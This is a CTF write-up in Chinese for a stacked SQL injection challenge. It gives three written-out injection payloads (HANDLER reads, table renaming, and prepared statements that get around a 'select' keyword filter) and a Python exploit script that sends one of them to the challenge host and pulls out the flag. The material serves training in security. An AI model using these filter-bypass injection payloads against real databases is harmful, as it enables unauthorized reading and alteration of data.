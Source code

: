 # 分析

来自[[强网杯 2019]随便注](https://buuoj.cn/challenges#[%E5%BC%BA%E7%BD%91%E6%9D%AF%202019]%E9%9A%8F%E4%BE%BF%E6%B3%A8)

页面功能只有查询，应该是sql注入，判断注入类型，发现闭合是`'`(单引号)，

![image-20240625210508462](image/image-20240625210508462.png)

发现联合注入被ban了，尝试堆叠注入

![image-20240625210437985](image/image-20240625210437985.png)

知道了字段，

![image-20240625211127979](image/image-20240625211127979.png)

## 方法一：handler语句代替select查询

```php
1';handler `1919810931114514` open as a;  //同样的，这里的表名因为是纯数字所以需要用反引号包裹
handler a read first;
handler ye close;#  //注意：这里必须close handler才可以获取Flag
```

执行完上述请求再请求1即可获得Flag

## 方法二：重命名绕过

```php
1';
alter table words rename to words1;
alter table `1919810931114514` rename to words;
alter table words change flag id varchar(50);#
```

执行完上述请求再请求1’ or 1=1#即可获得Flag

## 方法三：预处理

```php
1';
set @a = CONCAT('se','lect * from `1919810931114514`;');  //字符串拼接绕过select过滤
prepare flag from @a;
EXECUTE flag;#
```

# exp

```python
import requests
import re

url = "http://92882be8-add9-49fb-970f-fd58e4ca9c0f.node5.buuoj.cn:81/"
kw={
  "inject":"1';sEt @a=concat(\"sel\",\"ect * from \`1919810931114514\`\");Prepare hello from @a;execute hello;#"
}
res = requests.get(url, params=kw)

if res.status_code == 200:
    res_text = res.text
    # 打印响应内容（可选）
    #print("Response:", response_text)
    # 使用正则表达式查找 flag
    flag_pattern = "flag\{.*?\}"
    flag_match = re.search(flag_pattern, res_text)
    if flag_match:
        flag = flag_match.group(0)
        print(f"flag found -->>{flag}")
    else:
        print("flag not found.")
else:
    print("Request failed.")
```

